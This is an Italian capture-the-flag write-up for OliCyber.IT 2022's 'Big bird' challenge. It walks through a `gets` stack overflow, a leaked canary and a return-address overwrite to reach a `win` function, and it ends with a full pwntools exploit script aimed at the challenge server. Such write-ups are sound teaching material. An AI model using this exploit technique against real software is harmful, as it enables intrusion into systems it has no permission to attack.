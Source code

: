 # OliCyber.IT 2022 - Competizione territoriale

## [binary-3] Big bird (11 risoluzioni)

La challenge è un binario molto semplice, che stampa delle informazioni, chiede dell'input all'utente e ritorna subito. C'è una evidente funzione `win` nel binario che stampa la flag.

### Soluzione

Guardando il binario si vede molto in fretta che per prendere l'input dall'utente, il binario usa la funzione `gets`, che è una funzione non usabile in modo sicuro praticamente in nessun modo, perché non fa alcun tipo di bounds check. È molto facile quindi sovrascrivere l'indirizzo di ritorno dalla funzione main. L'unico problema è che il binario è compilato con il canary abilitato, per cui sfondando il buffer dove possiamo scrivere, andremo a sovrascrivere proprio il canary, cosa che causerà un abort del programma, impedendoci di chiamare la funzione win.

Ci viene in aiuto proprio quello che ha stampato il programma, che è esattamente il canary. Possiamo accorgercene in più modi:

- guardando il binario, si vede che la cosa che viene stampata è esattamente a `[rbp - 0x8]`, che è dove si trova il canary
- con un po' di guessing visto che il canary è un intero completamente casuale tranne per il byte meno significativo che è settato a 0. Dato che ci viene stampato, è abbastanza facile vedere che la cosa che viene stampata ha proprio queste caratteristiche.
- guessing dal nome della challenge

Dobbiamo a questo punto scoprire l'indirizzo della funzione `win`. Avendo il binario l'ASLR disabilitato, questo è un compito semplice, in quanto l'indirizzo è noto a tempo di compilazione. Possiamo usare vari tool per leggerlo, usando pwntools come sotto oppure `nm`:

```
nm bigbird | grep win
0000000000401715 T win
```

L'unica cosa che ci manca è l'offset a cui andare a scrivere il canary e l'indirizzo di ritorno della funzione. Questo può tranquillamente essere calcolato staticamente guardando il binario, ma lo faremo con `gdb` per mostrare un metodo più comodo. Mettiamo un breakpoint subito dopo aver ricevuto il nostro input, cioè `break *main + 79`. Eseguiamo il binario con `run`, inseriamo molto input, per esempio usando `cyclic` di `pwntools` e vediamo il risultato sullo stack:

```
0x007fffffffdda0│+0x0000: "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"	 ← $rax, $rsp
0x007fffffffdda8│+0x0008: "caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoa[...]"
0x007fffffffddb0│+0x0010: "eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqa[...]"
0x007fffffffddb8│+0x0018: "gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasa[...]"
0x007fffffffddc0│+0x0020: "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]"
0x007fffffffddc8│+0x0028: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
0x007fffffffddd0│+0x0030: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"	 ← $rbp
0x007fffffffddd8│+0x0038: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
```

Dobbiamo sovrascrivere la linea esattamente sopra `rbp` con il canary, quella subito sotto con l'indirizzo di ritorno. Possiamo ricavare l'offset leggendo dagli indirizzi, visto che il buffer è allineato alla cima dello stack, oppure usando pwntools:

```
cyclic -l kaaa
# risultato: 0x28
cyclic -l oaaa
# risultato: 0x38
```

Ricordiamo per chiarezza che lo stack frame di una funzione è fatto nel seguente modo:

```
dati             <- rsp
dati
dati
dati
canary
old_rbp          <- rbp
return_address
dati
dati
dati
```

### Exploit

```python
#!/usr/bin/env python
from pwn import ELF, context, process, args, flat, log

exe = context.binary = ELF("bigbird")
remotehost = ("bigbird.challs.olicyber.it", 12006)

if __name__ == "__main__":
    io = remote(*remotehost) if args.REMOTE else process([exe.path])
    io.recvuntil(b"BIG BIRD: ")
    canary = int(io.recvline(False), 16)
    io.sendlineafter(b"good music", flat({0x28: canary, 0x38: exe.sym['win']}))
    io.recvlines(2)
    flag = io.recvline().decode()
    log.success(flag)
    io.close()
```
